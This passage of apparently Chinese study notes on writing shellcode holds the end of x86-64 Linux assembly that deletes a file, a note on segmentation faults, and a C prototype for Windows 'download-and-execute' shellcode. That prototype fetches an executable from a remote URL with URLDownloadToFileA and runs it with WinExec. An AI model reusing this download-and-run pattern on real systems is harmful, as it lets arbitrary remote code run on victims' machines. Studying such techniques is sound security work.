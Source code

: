     exit:
        xor rax,  rax
        mov al,   60         ;sys_exit
        syscall

    _file:
        call delete
        fname: db "test.txt"
    ```

> Segmentation fault(Core Dump)
> - When a piece of code tries to do read and write operation in a read only location in memory or freed block of memory, it is known as core dump.
> - It is an error indicating memory corruption.

## Win10 / 64位 - 下载执行shellcode

### C语言编写的代码

- 此处使用的URLDownloadToFile函数名为`URLDownloadToFileA`(区别于`URLDownloadToFileW`)
- WinExec执行
    ```
    若函数调用成功，则返回值大于31。若函数调用失败，则返回值为下列之一： 
    0：系统内存或资源已耗尽。
    ERROR_BAD_FORMAT：EXE文件无效（非Win32.EXE或.EXE影像错误）。 
    ERROR_FILE_NOT_FOUND：指定的文件未找到。
    ERROR_PATH_NOT_FOUND：指定的路径未找到。 
    ```

    ```c
    # 一直报错 返回值为0
    # 关掉无关程序，只留下该函数，还是报错0

    #include <stdio.h>
    #include <Urlmon.h>
    #pragma comment(lib,"Urlmon.lib")

    int main()
    {
        if (URLDownloadToFileA(NULL, "https://dldir1.qq.com/weixin/Windows/WeChatSetup.exe", "e:\\test.exe", 0, 0) == S_OK)
        {
            printf("URLDownloadToFile OK\n");
            int ret = WinExec("e:\\test.exe", 0);
            printf("ret = %d\n",ret);
        }
        else
        {
            printf("URLDownloadToFile Fail,Error:%d\n", GetLastError());
        }
    }
    ```
